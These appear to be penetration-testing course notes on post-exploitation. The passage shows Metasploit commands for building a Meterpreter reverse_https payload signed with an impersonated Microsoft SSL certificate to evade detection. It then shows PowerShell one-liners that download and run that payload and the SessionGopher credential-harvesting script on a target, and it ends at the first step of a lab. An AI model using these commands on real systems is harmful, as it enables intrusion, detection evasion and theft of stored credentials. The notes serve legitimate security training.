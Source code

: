 There are options we can use to reduce our chances of being detected.
The following module will request a copy of an SSL certificate from a site of our choosing (e.g. `www.microsoft.com`), will create and output a self-signed version of the certificate and the associated private key we can then use to configure our payload and handler with.

`search impersonate_ssl`, `use auxiliary/gather/impersonate_ssl`, `show options`, `set RHOST www.microsoft.com`, `run`: to create the .crt certificate file, the associated .key private key and a .pem combined file.
`use payload/windows/x64/meterpreter/reverse_https`, `show options`, `set LHOST 192.168.1.3`, `set LPORT 443`, `set HANDLERSSLCERT <PEMFilepath>`, `set STAGERVERIFYSSLCERT true`, `generate -t exe -f /root/ssl_payload64.exe`: to create the SSL payload.

`use exploit/multi/handler`, `show options`, `set LHOST 192.168.1.3`, `set LPORT 443`, `set HandlerSSLCert <PEMFilepath>`, `set StagerVerifySSLCert true`, `set PAYLOAD windows/x64/meterpreter/reverse_https`, `exploit -j`: to run the handler.

`python -m SimpleHTTPServer 80`: to run a simple HTTP server, that we can then use to serve it to the target machine.
`(New-Object Net.WebClient).DownloadFile('http://192.168.1.3/ssl_payload.exe', 'C:\ssl_payload.exe')`: to download the SSL payload on the target machine.

Now we can check the SSL certificate strings of the ServerHello packet with Wireshark.

### Obtaining Stored Credentials with SessionGopher - Video

*SessionGopher* is a PowerShell script to gather credentials that are stored locally by applications such as WinSCP, Putty, RDP, and so on.
`wget https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1`: to download the script to the attacker system.
`python -m SimpleHTTPServer 80`: to run a simple HTTP server, that we can then use to serve it to the target machine.
`powershell.exe -nop -ep bypass -C iex (New-Object Net.WebClient).DownloadString('http://192.168.13.71/SessionGopher.ps1'); Invoke-SessionGopher`: to run SessionGopher on the target machine.
This is done to reduce our footprint and help to evade detection mechanisms.

### Post-Exploitation - Lab

You will learn to find and exploit a vulnerable application in this lab. It will also cover post-exploitation techniques to extract sensitive information and pivot!

In this lab environment, the user will access a Kali GUI instance. A vulnerable application can be accessed using the tools installed on Kali on http://demo.ine.local and http://demo1.ine.local

Objective: Exploit both the target and find the flag!

The best tools for this lab are:
- Metasploit Framework
- Nmap

Please go ahead ONLY if you have COMPLETED the lab or you are stuck! Checking the solutions before actually trying the concepts and techniques you studied in the course will dramatically reduce the benefits of a hands-on lab!

---

**Step 1**.
